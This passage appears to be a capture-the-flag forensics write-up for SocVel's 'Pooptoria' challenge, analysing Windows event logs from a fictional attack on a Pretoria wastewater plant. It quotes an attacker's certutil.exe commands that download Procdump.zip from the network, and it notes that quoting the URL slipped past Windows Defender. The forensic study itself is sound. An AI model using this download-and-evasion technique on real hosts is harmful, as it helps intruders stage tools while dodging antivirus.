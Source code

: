 # Pooptoria

## DFIR, 3000 points

### Description

The notorious threat actor Fancy Poodle has done it again! This time striking at Strikdaspoort Wastewater Treatment Plant in Pretoria, South Africa...

Do you have what it takes to solve the investigation while only using limited triage data? All before the license-dongle-wielding forensic analysts have checked their write blockers out of storage?

For more information, check the [Pooptoria scenario backstory](https://socvel.com/pooptoria.html#Pooptoria).

Author: [SocVel](https://twitter.com/socveldotcom)

### Solution

For this lab, I will explain my investigation work regarding this hack. To break down this exercise, I will focus on interesting questions asked in this SocVel's challenge. Thus, some questions might be omitted.

Most of the logs for this challenge uses the `.evtx` extension which are logs managed by Windows Event Viewer, you can get more information on [this Forensics Wiki](https://forensicswiki.xyz/wiki/index.php?title=Windows_XML_Event_Log_%28EVTX%29) or [this LogRhythm documentation](https://docs.logrhythm.com/docs/devices/ms-windows-event-log-sources/ms-windows-event-logging-xml-windows-defender/malware-detection-events-xml-logs
). In order to deal with Windows Event Log files on my Linux operating system, I converted them into XML files with a Python script `evtx_dump.py`, available in my GitHub repository [there](https://github.com/extiop/ctf/blob/master/2021/SocVel/DFIR/evtx_dump.py).

#### Q3) What was the full command the attacker ran that led to the successful download of the archive?

After implanting a trojan (Ceprolad Trojan), the attacker indeed downloaded successfully a very particular archive, as `Administrator`, after one fail. From the `Sysmon.xml` file, the latter was blocked by Windows Defender, he tried this command at first: 
```bash
$ certutil.exe -urlcache -split -f https://download.sysinternals.com/files/Procdump.zip procdump.zip
```

After a few seconds he added quotes to the malicious URL to bypass the detection, hence, according to event record ID 11804 (`<EventRecordID>11804</EventRecordID>`), he ran this full command:

```bash
$ certutil.exe  -urlcache -split -f "https://download.sysinternals.com/files/Procdump.zip" procdump.zip
```

#### Q5) The attacker seems to have tried and failed to disable Windows Defender via the command line. What command was run on the host for this?
